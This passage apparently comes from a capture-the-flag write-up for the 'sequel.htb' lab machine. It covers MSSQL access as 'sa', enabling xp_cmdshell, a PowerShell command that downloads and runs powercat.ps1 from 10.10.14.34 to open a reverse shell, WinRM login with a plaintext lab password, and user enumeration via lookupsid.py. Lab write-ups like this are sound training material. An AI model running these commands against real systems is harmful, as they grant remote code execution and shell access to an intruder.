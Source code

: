 ### Port 1433

As we obtained MSSQL password I am gonna try to connect to it.

```bash
mssqlclient.py -p 1433 sa@$IP
```

![image.png](image%205.png)

```sql
select * from master.dbo.sysdatabases;
```

Listing the databases I see just default ones:

![image.png](image%206.png)

I am gonna try to execute command:

```bash
enable_xp_cmdshell
xp_cmdshell whoami
```

![image.png](image%207.png)

Let’s get a reverse shell using powershell powercat.ps1.

Now I have a shell:

```bash
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.34/powercat.ps1');powercat -c 10.10.14.34 -p 443 -e cmd"
```

![image.png](image%208.png)

### Port 5985

```bash
sudo nxc winrm $IP -u rose -p 'KxEPkKe6R8su'
```

![image.png](image%209.png)

## AD Initial Enumeration

### User Enumeration

Unauthenticated

Authenticated

```bash
lookupsid.py sequel.htb/rose:'KxEPkKe6R8su'@sequel.htb | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
```
